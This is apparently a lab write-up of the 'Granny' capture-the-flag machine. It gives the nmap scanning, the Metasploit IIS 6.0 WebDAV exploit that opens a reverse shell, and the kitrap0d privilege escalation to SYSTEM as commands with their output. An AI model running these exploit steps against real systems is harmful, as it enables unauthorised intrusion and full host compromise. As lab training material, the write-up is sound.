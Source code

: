 # Granny
## OS: Windows
## Difficulty: Easy

## Enumeration:
I'll start with a port scan:
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.95.234  --max-retries 1
``

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 02 Sep 2024 20:17:51 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Let's take a look at port 80.

![site](IMG/img1.png)

Nothing much to see.

```bash
whatweb http://10.129.95.234
http://10.129.95.234 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.129.95.234], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]

```
Whatweb reveals the use of an outdated IIS server. 

## Foothold:

I found a CVE and a POC for this version:

https://github.com/eliuha/webdav_exploit

I also found it on metasploit. Let's run it.

```bash 
sudo msfconsole -q
search search iis 6.0
use exploit/windows/iis/iis_webdav_scstoragepathfromurl

set RHOSTS 10.129.95.234
set LHOST tun0
run

```

![shell](IMG/img2.png)

It worked! I'll drop into a shell and try to learn about the target.

```bash
shell #
whoami

#nt authority\network service

systeminfo
#OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
#OS Version:                5.2.3790 Service Pack 2 Build 3790
```
## Privilege Escalation:

Let's use the local_exploit_suggester module.
```bash
[Ctrl+z]
y
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running,
 but could not be validated.                                                                                        
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to b
e vulnerable.                                                                                                       
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to b
e vulnerable.                                                                                                       
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to b
e vulnerable.                                                                                                       
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running,
 but could not be validated.                                                                                        
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to b
e vulnerable.
```

I tried all of them and none worked. I'll try to migrate to another process and try again.

```bash
ps
migrate 2668 

[Ctrl+Z]
use exploit/windows/local/ms10_015_kitrap0d
run
getuid
```

![root](IMG/img3.png)

And this worked! Now we can get the flags.

```bash
cd Documents\ and\ Settings\\
dir
cd Lakis
cat user.txt
cd ../../Administrator/Desktop
cat root.txt
```

## We got both flags!